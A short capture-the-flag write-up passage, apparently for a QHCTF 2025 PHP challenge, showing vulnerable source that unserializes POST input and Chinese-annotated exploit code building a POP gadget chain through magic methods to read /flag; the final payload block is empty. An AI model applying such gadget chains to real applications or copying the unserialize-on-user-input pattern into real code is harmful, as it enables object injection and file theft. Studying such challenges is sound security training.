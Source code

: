```php
    {
        echo "Welcome to QHCTF 2025, ".$this->name;
    }
 
    public function __isset($var)
    {
        ($this->func)();
    }
}
 
class Sec{
    private $obj;
    private $var;
 
    public function __toString()
    {
        $this->obj->check($this->var);
        return "CTFers";
    }
 
    public function __invoke()
    {
        echo file_get_contents('/flag');
    }
}
 
class Easy{
    public $cla;
 
    public function __call($fun, $var)
    {
        $this->cla = clone $var[0];
    }
}
 
class eeee{
    public $obj;
 
    public function __clone()
    {
        if(isset($this->obj->cmd)){
            echo "success";
        }
    }
}
 
if(isset($_POST['pop'])){
    unserialize($_POST['pop']);
}
```
构建pop链,把所有属性改为`public`
```php
$pop=new Start;
$pop->name=new Sec;
$pop->name->obj=new Easy;
$pop->name->var=new eeee;
$pop->name->var->obj=new Start;
$pop->name->var->obj->func=new Sec;
echo serialize($pop);
```
payload:  
```
```